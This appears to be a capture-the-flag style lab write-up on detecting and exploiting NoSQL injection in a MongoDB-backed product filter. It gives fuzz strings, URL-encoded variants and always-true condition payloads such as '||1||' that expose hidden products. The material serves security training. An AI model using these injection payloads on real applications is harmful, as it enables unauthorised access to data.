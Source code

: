 # Detecting NoSQL injection
# Objective
The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.\
\
To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

# Solution
## Detecting syntax injection
Fuzz string:
```
'"`{
;$Foo}
$Foo \xYZ
```

Encoded fuzz string:
```
'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
|![](Images/image-1.png)|
|:--:| 
| *Fuzz string triggered internal server error* |

### Determinig which characters are processed
Some of the characters from fuzz string cause an error. In order to find them, they have to be checked one by one. For example:
|![](Images/image-2.png)|
|:--:| 
| `'` triggered an error |
|![](Images/image-3.png)|
| `\'` - Escaped character `'` does not trigger any error |

Payload: `Accessories'%2B'` (`Accessories'+'`) does not trigger error. Instead `+` a `-` can be used. Character `-` does not have to be encoded.
|![](Images/image-6.png)|
|:--:| 
| `'` triggered an error |

### Confirming conditional behavior
The following payloads helps to to confirm whether an application is vulnerable to condicional query manipulations:
```
Encoded: '+%26%26+0+%26%26+'x
Decoded: ' && 0 && 'x

Encoded: '+%26%26+1+%26%26+'x
Decoded: ' && 1 && 'x
```

|![](Images/image-4.png)|
|:--:| 
| *Content wasn't loaded* |
|![](Images/image-5.png)|
| *Content was loaded correctly* |

### Overriding existing conditions
The following condition will allways evaluate to true:
```
'||1||'
'||'1'=='1
```

|![](Images/image.png)|
|:--:| 
|![](Images/image-7.png)|

Alternatively the `null byte` payload could be used to ignore the rest of the conditional statement. In this case it did not work.
```
Payload: test'%00
Expected query structure: this.category == 'test'\u0000' && this.released == 1
```


